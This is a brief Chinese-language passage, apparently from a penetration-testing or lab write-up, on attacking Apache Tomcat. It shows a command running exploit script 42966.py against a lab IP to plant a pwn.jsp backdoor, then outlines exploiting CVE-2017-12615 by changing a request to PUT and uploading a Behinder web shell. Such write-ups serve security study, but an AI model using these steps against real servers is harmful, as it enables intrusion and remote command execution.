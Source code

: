 python 42966.py -u http://192.168.47.136:2002/ -p pwn 

其实就是生成pwn.jsp后门可以直接去执行：

![img](assets/1695034907230-fa9ed783-c53f-4350-b11f-af2210f60746.png)
或者

Tomcat PUT方法任意写文件漏洞（CVE-2017-12615）

[Tomcat漏洞汇总](https://zhuanlan.zhihu.com/p/137686820)

访问抓包：

![img](assets/1695034912862-be83d244-be54-4233-9464-4342e181a052.png)
修改为PUT方法，上传冰蝎shell1.jsp
回显201为成功：
